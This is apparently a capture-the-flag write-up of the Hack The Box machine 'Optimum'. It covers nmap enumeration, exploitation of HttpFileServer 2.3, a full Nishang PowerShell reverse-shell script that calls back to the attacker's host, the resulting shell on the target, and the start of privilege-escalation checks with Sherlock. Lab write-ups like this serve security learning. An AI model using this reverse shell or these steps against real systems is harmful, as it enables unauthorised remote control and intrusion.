










#### Optimum

- [Attacker Info](#attacker-info)
- [Nmap Scan](#nmap-scan)
- [Manual Exploitation of HttpFileServer httpd 2.3](#manual-exploitation-of-httpfileserver-httpd-23)
- [Msf Exploitation of HttpFileServer httpd 2.3](#msf-exploitation-of-httpfileserver-httpd-23)



###### Attacker Info

```sh
root@kali:~/optimum# ifconfig
eth0: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
        inet 192.168.1.19  netmask 255.255.255.0  broadcast 192.168.1.255
        inet6 fe80::20c:29ff:fef1:8ebf  prefixlen 64  scopeid 0x20<link>
        ether 00:0c:29:f1:8e:bf  txqueuelen 1000  (Ethernet)
        RX packets 1981  bytes 1004725 (981.1 KiB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 1108  bytes 143261 (139.9 KiB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0
        device interrupt 19  base 0x2000

lo: flags=73<UP,LOOPBACK,RUNNING>  mtu 65536
        inet 127.0.0.1  netmask 255.0.0.0
        inet6 ::1  prefixlen 128  scopeid 0x10<host>
        loop  txqueuelen 1000  (Local Loopback)
        RX packets 34  bytes 1662 (1.6 KiB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 34  bytes 1662 (1.6 KiB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0

tun0: flags=4305<UP,POINTOPOINT,RUNNING,NOARP,MULTICAST>  mtu 1500
        inet 10.10.14.5  netmask 255.255.254.0  destination 10.10.14.5
        inet6 fe80::49f4:fd16:9048:8fbf  prefixlen 64  scopeid 0x20<link>
        inet6 dead:beef:2::1003  prefixlen 64  scopeid 0x0<global>
        unspec 00-00-00-00-00-00-00-00-00-00-00-00-00-00-00-00  txqueuelen 100  (UNSPEC)
        RX packets 176  bytes 9184 (8.9 KiB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 365  bytes 21888 (21.3 KiB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0

tun1: flags=4305<UP,POINTOPOINT,RUNNING,NOARP,MULTICAST>  mtu 1500
        inet 10.10.14.5  netmask 255.255.254.0  destination 10.10.14.5
        inet6 fe80::f054:d681:979e:4213  prefixlen 64  scopeid 0x20<link>
        inet6 dead:beef:2::1003  prefixlen 64  scopeid 0x0<global>
        unspec 00-00-00-00-00-00-00-00-00-00-00-00-00-00-00-00  txqueuelen 100  (UNSPEC)
        RX packets 24  bytes 1212 (1.1 KiB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 8  bytes 384 (384.0 B)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0

root@kali:~/optimum#
```

###### Nmap Scan

```sh
root@kali:~/optimum# nmap -sV -sC -oA optimum.nmap 10.10.10.8

Starting Nmap 7.60 ( https://nmap.org ) at 2018-01-22 23:04 EST
Nmap scan report for 10.10.10.8
Host is up (0.27s latency).
Not shown: 999 filtered ports
PORT   STATE SERVICE VERSION
80/tcp open  http    HttpFileServer httpd 2.3
|_http-server-header: HFS 2.3
|_http-title: HFS /
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 39.54 seconds
root@kali:~/optimum#
```

###### Manual Exploitation of ``HttpFileServer httpd 2.3``

[``HFS: scripting commands``](http://www.rejetto.com/wiki/index.php?title=HFS:_scripting_commands)













- Using ``nishang`` for reverse TCP connect

```sh
root@kali:~/optimum# git clone https://github.com/samratashok/nishang.git
Cloning into 'nishang'...
remote: Counting objects: 1530, done.
remote: Compressing objects: 100% (13/13), done.
remote: Total 1530 (delta 6), reused 11 (delta 4), pack-reused 1513
Receiving objects: 100% (1530/1530), 4.38 MiB | 5.39 MiB/s, done.
Resolving deltas: 100% (953/953), done.
root@kali:~/optimum# cd nishang/
root@kali:~/optimum/nishang# cd Shells/
root@kali:~/optimum/nishang/Shells# ls
Invoke-JSRatRegsvr.ps1  Invoke-PoshRatHttp.ps1   Invoke-PowerShellIcmp.ps1            Invoke-PowerShellTcpOneLine.ps1  Invoke-PowerShellUdpOneLine.ps1  Invoke-PowerShellWmi.ps1  Invoke-PsGcat.ps1
Invoke-JSRatRundll.ps1  Invoke-PoshRatHttps.ps1  Invoke-PowerShellTcpOneLineBind.ps1  Invoke-PowerShellTcp.ps1         Invoke-PowerShellUdp.ps1         Invoke-PsGcatAgent.ps1    Remove-PoshRat.ps1
root@kali:~/optimum/nishang/Shells# less Invoke-PowerShellTcp.ps1
root@kali:~/optimum/nishang/Shells#
```

```sh
root@kali:~/optimum/nishang/Shells# cp Invoke-PowerShellTcp.ps1 ../../
root@kali:~/optimum/nishang/Shells# cd ../../
root@kali:~/optimum# ls
Invoke-PowerShellTcp.ps1  nishang  optimum.nmap.gnmap  optimum.nmap.nmap  optimum.nmap.xml
root@kali:~/optimum#
```

- ``Invoke-PowerShellTcp.ps1``

```PowerShell
function Invoke-PowerShellTcp
{
<#
.SYNOPSIS
Nishang script which can be used for Reverse or Bind interactive PowerShell from a target.

.DESCRIPTION
This script is able to connect to a standard netcat listening on a port when using the -Reverse switch.
Also, a standard netcat can connect to this script Bind to a specific port.

The script is derived from Powerfun written by Ben Turner & Dave Hardy

.PARAMETER IPAddress
The IP address to connect to when using the -Reverse switch.

.PARAMETER Port
The port to connect to when using the -Reverse switch. When using -Bind it is the port on which this script listens.

.EXAMPLE
PS > Invoke-PowerShellTcp -Reverse -IPAddress 192.168.254.226 -Port 4444

Above shows an example of an interactive PowerShell reverse connect shell. A netcat/powercat listener must be listening on
the given IP and port.

.EXAMPLE
PS > Invoke-PowerShellTcp -Bind -Port 4444

Above shows an example of an interactive PowerShell bind connect shell. Use a netcat/powercat to connect to this port.

.EXAMPLE
PS > Invoke-PowerShellTcp -Reverse -IPAddress fe80::20c:29ff:fe9d:b983 -Port 4444

Above shows an example of an interactive PowerShell reverse connect shell over IPv6. A netcat/powercat listener must be
listening on the given IP and port.

.LINK
http://www.labofapenetrationtester.com/2015/05/week-of-powershell-shells-day-1.html
https://github.com/nettitude/powershell/blob/master/powerfun.ps1
https://github.com/samratashok/nishang
#>
    [CmdletBinding(DefaultParameterSetName="reverse")] Param(

        [Parameter(Position = 0, Mandatory = $true, ParameterSetName="reverse")]
        [Parameter(Position = 0, Mandatory = $false, ParameterSetName="bind")]
        [String]
        $IPAddress,

        [Parameter(Position = 1, Mandatory = $true, ParameterSetName="reverse")]
        [Parameter(Position = 1, Mandatory = $true, ParameterSetName="bind")]
        [Int]
        $Port,

        [Parameter(ParameterSetName="reverse")]
        [Switch]
        $Reverse,

        [Parameter(ParameterSetName="bind")]
        [Switch]
        $Bind

    )


    try
    {
        #Connect back if the reverse switch is used.
        if ($Reverse)
        {
            $client = New-Object System.Net.Sockets.TCPClient($IPAddress,$Port)
        }

        #Bind to the provided port if Bind switch is used.
        if ($Bind)
        {
            $listener = [System.Net.Sockets.TcpListener]$Port
            $listener.start()
            $client = $listener.AcceptTcpClient()
        }

        $stream = $client.GetStream()
        [byte[]]$bytes = 0..65535|%{0}

        #Send back current username and computername
        $sendbytes = ([text.encoding]::ASCII).GetBytes("Windows PowerShell running as user " + $env:username + " on " + $env:computername + "`nCopyright (C) 2015 Microsoft Corporation. All rights reserved.`n`n")
        $stream.Write($sendbytes,0,$sendbytes.Length)

        #Show an interactive PowerShell prompt
        $sendbytes = ([text.encoding]::ASCII).GetBytes('PS ' + (Get-Location).Path + '>')
        $stream.Write($sendbytes,0,$sendbytes.Length)

        while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0)
        {
            $EncodedText = New-Object -TypeName System.Text.ASCIIEncoding
            $data = $EncodedText.GetString($bytes,0, $i)
            try
            {
                #Execute the command on the target.
                $sendback = (Invoke-Expression -Command $data 2>&1 | Out-String )
            }
            catch
            {
                Write-Warning "Something went wrong with execution of command on the target."
                Write-Error $_
            }
            $sendback2  = $sendback + 'PS ' + (Get-Location).Path + '> '
            $x = ($error[0] | Out-String)
            $error.clear()
            $sendback2 = $sendback2 + $x

            #Return the results
            $sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2)
            $stream.Write($sendbyte,0,$sendbyte.Length)
            $stream.Flush()
        }
        $client.Close()
        if ($listener)
        {
            $listener.Stop()
        }
    }
    catch
    {
        Write-Warning "Something went wrong! Check if the server is reachable and you are using the correct port."
        Write-Error $_
    }
}

Invoke-PowerShellTcp -Reverse -IPAddress 10.10.14.5 -Port 1337
```







```sh
root@kali:~/optimum# python -m SimpleHTTPServer
Serving HTTP on 0.0.0.0 port 8000 ...
10.10.10.8 - - [22/Jan/2018 23:57:10] "GET /Invoke-PowerShellTcp.ps1 HTTP/1.1" 200 -
10.10.10.8 - - [22/Jan/2018 23:57:10] "GET /Invoke-PowerShellTcp.ps1 HTTP/1.1" 200 -
10.10.10.8 - - [22/Jan/2018 23:57:10] "GET /Invoke-PowerShellTcp.ps1 HTTP/1.1" 200 -
10.10.10.8 - - [22/Jan/2018 23:57:10] "GET /Invoke-PowerShellTcp.ps1 HTTP/1.1" 200 -
```

```sh
root@kali:~# nc -lvp 1337
listening on [any] 1337 ...
10.10.10.8: inverse host lookup failed: Unknown host
connect to [10.10.14.5] from (UNKNOWN) [10.10.10.8] 49230
Windows PowerShell running as user kostas on OPTIMUM
Copyright (C) 2015 Microsoft Corporation. All rights reserved.

PS C:\Users\kostas\Desktop>
Host Name:                 OPTIMUM
OS Name:                   Microsoft Windows Server 2012 R2 Standard
OS Version:                6.3.9600 N/A Build 9600
OS Manufacturer:           Microsoft Corporation
OS Configuration:          Standalone Server
OS Build Type:             Multiprocessor Free
Registered Owner:          Windows User
Registered Organization:
Product ID:                00252-70000-00000-AA535
Original Install Date:     18/3/2017, 1:51:36 ??
System Boot Time:          28/1/2018, 9:32:42 ??
System Manufacturer:       VMware, Inc.
System Model:              VMware Virtual Platform
System Type:               x64-based PC
Processor(s):              1 Processor(s) Installed.
                           [01]: Intel64 Family 6 Model 63 Stepping 2 GenuineIntel ~2594 Mhz
BIOS Version:              Phoenix Technologies LTD 6.00, 5/4/2016
Windows Directory:         C:\Windows
System Directory:          C:\Windows\system32
Boot Device:               \Device\HarddiskVolume1
System Locale:             el;Greek
Input Locale:              en-us;English (United States)
Time Zone:                 (UTC+02:00) Athens, Bucharest
Total Physical Memory:     4.095 MB
Available Physical Memory: 3.387 MB
Virtual Memory: Max Size:  5.503 MB
Virtual Memory: Available: 4.833 MB
Virtual Memory: In Use:    670 MB
Page File Location(s):     C:\pagefile.sys
Domain:                    HTB
Logon Server:              \\OPTIMUM
Hotfix(s):                 31 Hotfix(s) Installed.
                           [01]: KB2959936
                           [02]: KB2896496
                           [03]: KB2919355
                           [04]: KB2920189
                           [05]: KB2928120
                           [06]: KB2931358
                           [07]: KB2931366
                           [08]: KB2933826
                           [09]: KB2938772
                           [10]: KB2949621
                           [11]: KB2954879
                           [12]: KB2958262
                           [13]: KB2958263
                           [14]: KB2961072
                           [15]: KB2965500
                           [16]: KB2966407
                           [17]: KB2967917
                           [18]: KB2971203
                           [19]: KB2971850
                           [20]: KB2973351
                           [21]: KB2973448
                           [22]: KB2975061
                           [23]: KB2976627
                           [24]: KB2977629
                           [25]: KB2981580
                           [26]: KB2987107
                           [27]: KB2989647
                           [28]: KB2998527
                           [29]: KB3000850
                           [30]: KB3003057
                           [31]: KB3014442
Network Card(s):           1 NIC(s) Installed.
                           [01]: Intel(R) 82574L Gigabit Network Connection
                                 Connection Name: Ethernet0
                                 DHCP Enabled:    No
                                 IP address(es)
                                 [01]: 10.10.10.8
Hyper-V Requirements:      A hypervisor has been detected. Features required for Hyper-V will not be displayed.
PS C:\Users\kostas\Desktop>
```

- Use ``Sherlock`` for local privilege escalation vulnerabilities

```sh
root@kali:~/optimum# git clone https://github.com/rasta-mouse/Sherlock.git
Cloning into 'Sherlock'...
remote: Counting objects: 63, done.
remote: Total 63 (delta 0), reused 0 (delta 0), pack-reused 63
Unpacking objects: 100% (63/63), done.
root@kali:~/optimum# cd Sherlock/
root@kali:~/optimum/Sherlock# ls
LICENSE  README.md  Sherlock.ps1
root@kali:~/optimum/Sherlock# grep -i function Sherlock.ps1
function Get-FileVersionInfo ($FilePath) {
function Get-InstalledSoftware($SoftwareName) {
function Get-Architecture {
function Get-CPUCoreCount {
function New-ExploitTable {
function Set-ExploitTable ($MSBulletin, $VulnStatus) {
function Get-Results {
function Find-AllVulns {
function Find-MS10015 {
function Find-MS10092 {
function Find-MS13053 {
function Find-MS13081 {
function Find-MS14058 {
function Find-MS15051 {
function Find-MS15078 {
function Find-MS16016 {
function Find-MS16032 {
function Find-CVE20177199 {
function Find-MS16135 {
root@kali:~/optimum/Sherlock# 
```

- ``Sherlock.ps1``

```Powershell
<#

    File: Sherlock.ps1
    Author: @_RastaMouse
    License: GNU General Public License v3.0

#>

$Global:ExploitTable = $null

function Get-FileVersionInfo ($FilePath) {

    $VersionInfo = (Get-Item $FilePath).VersionInfo
    $FileVersion = ( "{0}.{1}.{2}.{3}" -f $VersionInfo.FileMajorPart, $VersionInfo.FileMinorPart, $VersionInfo.FileBuildPart, $VersionInfo.FilePrivatePart )

    return $FileVersion

}

function Get-InstalledSoftware($SoftwareName) {

    $SoftwareVersion = Get-WmiObject -Class Win32_Product | Where { $_.Name -eq $SoftwareName } | Select-Object Version
    $SoftwareVersion = $SoftwareVersion.Version  # I have no idea what I'm doing

    return $SoftwareVersion

}

function Get-Architecture {

    # This is the CPU architecture.  Returns "64-bit" or "32-bit".
    $CPUArchitecture = (Get-WmiObject Win32_OperatingSystem).OSArchitecture

    # This is the process architecture, e.g. are we an x86 process running on a 64-bit system.  Retuns "AMD64" or "x86".
